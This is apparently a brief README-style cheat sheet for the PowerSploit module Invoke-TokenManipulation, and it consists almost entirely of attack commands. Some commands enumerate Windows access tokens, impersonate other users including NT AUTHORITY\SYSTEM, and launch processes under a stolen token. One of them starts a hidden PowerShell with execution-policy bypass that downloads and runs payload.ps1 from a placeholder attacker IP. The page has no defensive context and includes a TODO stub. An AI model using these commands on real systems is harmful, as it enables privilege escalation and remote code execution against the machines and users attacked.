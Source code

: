 # PowerSploit

## 01 - Invoke-TokenManipulation

TODO: Write more information related to this powersploit module

```
PS C:\> Invoke-TokenManipulation -Enumerate
```

Impersonate current token.

```
PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain>\<username>"

PS C:\> Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```

Enumerate current privileges.

```
PS C:\> Invoke-TokenManipulation -WhoAmI
```

To execute with a new process with arguments after obtaining the new token.

```
PS C:\> Invoke-TokenManipulation -CreateProcess "cmd.exe"

PS C:\> Get-Process wininit | Invoke-TokenManipulation -CreateProcess "powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/payload.ps1');\"};"
```

Reverting back to the current token.

```
PS C:\> Invoke-TokenManipulation -RevToSelf
```